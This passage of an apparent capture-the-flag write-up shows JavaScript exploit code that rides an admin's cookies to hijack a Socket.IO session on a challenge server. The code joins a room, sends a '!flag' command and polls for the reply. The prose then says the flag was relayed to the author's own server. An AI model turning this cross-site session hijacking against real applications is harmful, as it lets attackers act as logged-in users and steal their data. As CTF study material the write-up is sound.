 ```javascript
function genPayload(body){
    let data = '42/test,' + body;
    data = '' + data.length + ':' + data
    return data
}

async function doExploit(){
    const base_url = 'http://nine.jh2i.com:50022'

    let res = await fetch(base_url + '/socket.io/', {'credentials': 'include'});
    let text = await res.text();

    let sid = text.split('sid":"')[1].split('",')[0];
    log('[*] Got sid: ' + sid);

    // handshake
    await fetch(base_url + '/socket.io/?EIO=3&transport=polling&sid=' + sid, {'method': 'POST', 'mode': 'no-cors', 'credentials': 'include', 'body': '8:40/test,'});
    log('[*] Handshake complete');
    await sleep(100);

    // join room
    let payload = genPayload('["join",{"room":"rpjim"}]');
    await fetch(base_url + '/socket.io/?EIO=3&transport=polling&sid=' + sid, {'method': 'POST', 'mode': 'no-cors', 'credentials': 'include', 'body': payload});
    log('[*] Joined room');
    await sleep(100);

    // start initial poll
    res = await fetch(base_url + '/socket.io/?EIO=3&transport=polling&sid=' + sid, {'credentials': 'include'});
    text = await res.text();
    log('[*] Polling result: ' + text);

    // send flag command
    payload = genPayload('["my_room_event",{"data":"!flag","room":"rpjim"}]');
    await fetch(base_url + '/socket.io/?EIO=3&transport=polling&sid=' + sid, {'method': 'POST', 'mode': 'no-cors', 'credentials': 'include', 'body': payload});
    log('[*] Sent flag command');

    // poll for flag
    res = await fetch(base_url + '/socket.io/?EIO=3&transport=polling&sid=' + sid, {'credentials': 'include'});
    text = await res.text();
    log('[*] Polling result: ' + text);
}
```

Essentially I used what I explained above about how socketio works and wrote my own HTTP requests to hijack the admin's socket. The admin would make a new conversation, send the `!flag` command, and finally poll for the response which had the flag and send it to my server via WebSockets (the irony). 
